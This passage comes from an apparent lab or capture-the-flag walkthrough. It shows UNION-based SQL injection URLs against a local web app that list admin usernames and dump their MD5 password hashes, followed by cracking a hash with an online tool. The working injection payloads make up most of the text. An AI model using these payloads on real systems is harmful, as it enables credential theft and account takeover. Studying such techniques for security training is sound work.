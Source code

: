 # (g) Get username and password for Administrator/s

We have to assume that there may be a few Administrators of the application so we will be using again **LIMIT** and **OFFSET** clauses for listing one column at a time.

From the previous steps we know that the **users** table have all the user's data.
We also know the structure of that table:

- id
- username
- password
- isAdmin
- firstname
- lastname
- avatar
- description

So we need to query the **users** table asking for the **_username_** where **isAdmin=true**, like this:
```shell
SELECT username FROM users WHERE isAdmin=1 LIMIT 1 OFFSET 0
```

> **Note:** 
>
> in MySQL true == 1 when quering


Injecting the query in the browser should look like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT username FROM users WHERE isAdmin=1 LIMIT 1 OFFSET 0),3,4,5,6,7,8,9,10/slug-name-post'
```


And we keep **increasing the OFFSET** value until we get a blank response.

--

Let say we get **only one** administrator user, with **username='admin'**. Now we need to get the password:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT password FROM users WHERE username='admin' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9,10/slug-name-post'
```

And we will get some string like this as result:
```shell
9a618248b64db62d15b300a07b00580b
```

This looks like a MD5 hash, so we could use the same online cracking tool we used some steps before to get a plain text password: [https://crackstation.net/](https://crackstation.net/)


The result is: **supersecret**, which is the admin user password.
